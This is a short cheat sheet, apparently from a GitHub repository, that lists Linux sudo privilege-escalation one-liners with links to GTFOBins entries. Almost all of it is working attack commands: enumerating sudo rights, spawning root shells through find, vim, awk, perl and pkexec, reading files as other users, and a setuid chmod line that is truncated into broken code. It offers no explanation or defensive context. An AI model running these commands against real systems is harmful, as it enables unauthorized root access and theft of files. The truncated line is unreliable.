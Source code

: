 ```
sudo -l
```

```
sudo -u $username /bin/bash
```

```
sudo -i
```

```
sudo su
```

```
sudo pkexec /bin/sh
```

```
sudo -u $username /usr/bin/find . -exec /bin/bash \; -quit
```

https://gtfobins.github.io/gtfobins/find/#sudo

```
sudo -u $username /usr/bin/vim -c ':!/bin/bash'
```

https://gtfobins.github.io/gtfobins/vim/#sudo

```
sudo -u $username /usr/bin/less $file
```

https://gtfobins.github.io/gtfobins/less/#sudo

```
sudo -u $username /usr/bin/awk '{print $0}' $file
```

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

https://gtfobins.github.io/gtfobins/awk/#sudo

```
LFILE=file_to_change
sudo chmod 6777 $LFIL
```

https://gtfobins.github.io/gtfobins/chmod/#sudo

```
sudo perl -e 'exec "/bin/sh";'
```

https://gtfobins.github.io/gtfobins/perl/#sudo

```
sudo -u $username perl -e 'print `cat $file`'
```
